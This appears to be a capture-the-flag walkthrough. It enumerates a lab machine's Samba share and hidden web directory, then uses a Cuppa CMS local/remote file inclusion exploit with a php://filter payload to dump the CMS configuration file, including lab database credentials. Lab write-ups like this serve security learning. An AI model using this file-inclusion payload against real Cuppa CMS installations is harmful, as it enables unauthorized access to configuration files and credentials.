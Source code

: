 We convert the binary email and get :
```
balls have zero to me to me to me to me to me to me to me to me to
```

Seems lie it's some kind of coded language.
Let's check the samba first and we'll return to this if we don't find anything usefull.
We get a bunch of pdf & a `notes` folder

We find an `important.txt` file :
```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Seems like we found something at `/45kra24zxs28v3yd`

It's a simple static page, let's gobuster `gobuster dir -w /usr/share/wordlists/dirb/common.txt --url http://$IP/45kra24zxs28v3yd -x js,php,html,txt,png,jpg`
```
/administrator (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
```

Actually, it's served via `cuppa CMS`.
We get a login page at `/45kra24zxs28v3yd/administrator`

We find an exploit for cuppa CMS.
```
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion exploits/php/webapps/25971.txt
```

We can access `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php`

This page is vulnerable to file inclusion (remote & local).

We can use `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php` to dump configuration file as base64.

Once decoded we get :
```
<?php 
	class Configuration{
		public $host = "localhost";
		public $db = "cuppa";
		public $user = "root";
		public $password = "password123";
		public $table_prefix = "cu_";
		public $administrator_template = "default";
		public $list_limit = 25;
		public $token = "OBqIPqlFWf3X";
		public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
		public $upload_default_path = "media/uploadsFiles";
		public $maximum_file_size = "5242880";
		public $secure_login = 0;
		public $secure_login_value = "";
		public $secure_login_redirect = "";
	} 

```
